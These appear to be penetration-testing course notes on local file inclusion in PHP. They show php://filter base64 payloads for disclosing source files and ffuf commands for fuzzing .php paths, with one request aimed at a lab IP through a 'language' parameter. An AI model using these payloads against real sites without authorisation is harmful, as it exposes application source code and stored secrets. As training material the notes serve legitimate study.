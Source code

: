 We can utilize PHP Wrappers to extend LFI to remote code execution (php://)

## Input Filters
php://filter/
- resource
- read

4 different types of filters:
- String Filters
- Conversion Filters
- Compression Filters
- Encryption Filters

Useful filters:
- convert.base64-encode


## Fuzzing for PHP Files
```
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
- Looking for HTTP response codes 200, 301, 302, and 403
- Spider to find all referenced PHP files


## Standard PHP Inclusion
Many .php files do not print to the screen because they don't render HTML output and instead execute code. Therefore, use the base64 php filter.
In the case that the web app does not execute code, it will show the source code.

## Source Code Disclosure
```url
php://filter/read=convert.base64-encode/resource=config
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```
- This web app appends .php to the url, so we purposefully left it out

```shell-session
ffuf -ac -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.48.12:46011/FUZZ.php
```
```
http://94.237.48.12:46011/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```
